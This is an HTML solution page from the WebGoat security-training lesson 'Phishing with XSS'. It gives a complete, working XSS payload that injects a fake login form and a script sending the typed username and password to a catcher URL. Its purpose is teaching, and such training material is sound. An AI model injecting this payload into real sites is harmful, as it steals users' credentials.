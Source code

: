 <html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=ISO-8859-1">
<title>Phising with XSS</title>
<link rel="stylesheet" type="text/css" href="lesson_solutions/formate.css">
</head>
<body>
<p><b>Lesson Plan Title:</b> Phishing with XSS</p>

<p><b>Concept / Topic To Teach:</b><br/>
It is always a good practice to validate all input on the 
server side. XSS can occur when unvalidated user input is used 
in an HTTP response. With the help of XSS you can do a Phishing 
Attack and add content to a page which looks official. It is very 
hard for a victim to determinate that the content is malicious.
</p> 

<p><b>General Goal(s):</b><br/>
The user should be able to add a form asking for username 
and password. On submit the input should be sent to 
http://localhost/WebGoat/catcher?PROPERTY=yes&user=catchedUserName&password=catchedPasswordName
</p>

<b>Solution:</b><br/>
With XSS it is possible to add further elements to an existing Page.
This solution consists of two parts you have to combine:
<ul>
<li>A form the victim has to fill in</li>
<li>A script which reads the form and sends the gathered information to the attacker</li>
</ul>
A Form with username and password could look like this:<br/>
<p>
&lt;/form&gt;&lt;form name=&quot;phish&quot;&gt;&lt;br&gt;&lt;br&gt;&lt;HR&gt;&lt;H3&gt;This feature requires account login:&lt;/H3
&gt;&lt;br&gt;&lt;br&gt;Enter Username:&lt;br&gt;&lt;input type=&quot;text&quot; name=&quot;user&quot;&gt;&lt;br&gt;Enter Password:&lt;br&gt;&lt;input type=&quot;password&quot;
name = &quot;pass&quot;&gt;&lt;br&gt;&lt;/form&gt;&lt;br&gt;&lt;br&gt;&lt;HR&gt;
<br/><br/>Search for this term and you will see that a form is added to the page since the search field accepts HTML.
<br/>The initial &lt;/form&gt; tag is to terminate the original search form.
</p>
Now you need a script:
<p>
&lt;script&gt;function hack(){ XSSImage=new Image; XSSImage.src=&quot;<font color="blue">http://localhost/WebGoat/</font>catcher?PROPERTY=yes&amp;user=&quot;+
document.phish.user.value + &quot;&amp;password=&quot; + document.phish.pass.value + &quot;&quot;; alert(&quot;Had this been a real attack... Your credentials were just stolen.
User Name = &quot; + document.phish.user.value + &quot;Password = &quot; +  document.phish.pass.value);}
&lt;/script&gt;
</p>
<p>
This script will read the input from the form and send it to the catcher of WebGoat.<br/>
The text <font color="blue">in blue</font> should match what is in your address bar. If you are using ports and/or webscarab, it may be different.<br/>
The last step is to put things together. Add a Button to the form which
calls the script. You can reach this with the onclick="myFunction()" handler:
</p>
<p>
&lt;input type=&quot;submit&quot; name=&quot;login&quot; value=&quot;login&quot; onclick=&quot;hack()&quot;&gt;
<p>
The final String looks like this:<br/>
&lt;/form&gt;&lt;script&gt;function hack(){ XSSImage=new Image; XSSImage.src=&quot;<font color="blue">http://localhost/WebGoat/</font>catcher?PROPERTY=yes&amp;user=&quot;+
document.phish.user.value + &quot;&amp;password=&quot; + document.phish.pass.value + &quot;&quot;; alert(&quot;Had this been a real attack... Your credentials were just stolen.
User Name = &quot; + document.phish.user.value + &quot;Password = &quot; +  document.phish.pass.value);}
&lt;/script&gt;&lt;form name=&quot;phish&quot;&gt;&lt;br&gt;&lt;br&gt;&lt;HR&gt;&lt;H3&gt;This feature requires account login:&lt;/H3
&gt;&lt;br&gt;&lt;br&gt;Enter Username:&lt;br&gt;&lt;input type=&quot;text&quot; name=&quot;user&quot;&gt;&lt;br&gt;Enter Password:&lt;br&gt;&lt;input type=&quot;password&quot;
name = &quot;pass&quot;&gt;&lt;br&gt;&lt;input type=&quot;submit&quot; name=&quot;login&quot; value=&quot;login&quot; onclick=&quot;hack()&quot;&gt;&lt;/form&gt;&lt;br&gt;&lt;br&gt;&lt;HR&gt;
</p>
Search for this String and you will see a form asking for your username and password.
Fill in these fields and click on the Login Button, which completes the lesson.<br/><br/>
<img src="lesson_solutions/Phishing_files/image001.jpg"><br/>
<font size="2"><b>New login field after submitting the script.</b></font><br/><br/><br/>
</body>
</html>
